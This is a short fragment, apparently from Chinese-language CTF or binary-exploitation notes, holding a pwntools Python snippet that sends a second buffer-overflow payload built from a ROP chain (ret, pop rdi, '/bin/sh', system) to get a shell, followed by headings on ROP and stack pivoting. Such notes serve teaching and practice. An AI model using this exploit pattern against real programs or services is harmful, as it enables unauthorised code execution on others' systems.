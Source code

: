 ```python

#二次溢出，取shell
p.sendlineafter('choice!\n',b'1')
payload2 = flat(b'\0',b'A'*0x57,p64(ret_addr),p64(pop_rdi),p64(bin_sh),p64(system_addr))
p.sendlineafter('encrypted\n',payload2)
p.interactive()
```

# ROP编程

## 栈迁移
